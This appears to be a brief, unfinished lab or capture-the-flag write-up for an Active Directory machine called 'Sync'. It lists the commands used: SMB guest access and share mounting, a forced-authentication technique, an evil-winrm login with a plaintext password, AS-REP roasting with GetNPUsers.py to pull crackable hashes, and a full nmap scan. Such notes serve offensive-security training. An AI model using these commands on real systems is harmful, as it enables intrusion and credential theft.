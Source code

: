 ```yaml
---
title: Sync
created: '2020-07-07T17:53:55.480Z'
modified: '2020-07-07T21:18:57.516Z'
---
```


# Sync
- IP: `172.31.3.6`
- OS: `Active Directory`
## Enumeration
### Writeup
We have guest login on smb: `smbclient.py SYNC\asdfsf@172.31.3.6`
We mount the Department share but there's nothing there: `mount -t cifs -o username=user,password= //172.31.3.6/Department /mnt/Department/`

However, we have write permissions but can't write? We check permissions with `smbcacls -N '//172.31.3.6/Department' 'Support'`
We can only write in the support directory!
We exploit: `https://ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-url`

We get access: `evil-winrm -i 172.31.3.6 -u sysadmin -p sEsshOUmArU25-159`

`GetNPUsers.py sync.csl/sysadmin:sEsshOUmArU25-159 -dc-ip 172.31.3.6 -request -format hashcat -outputfile hashes.asreproas`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.3.6`
```

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
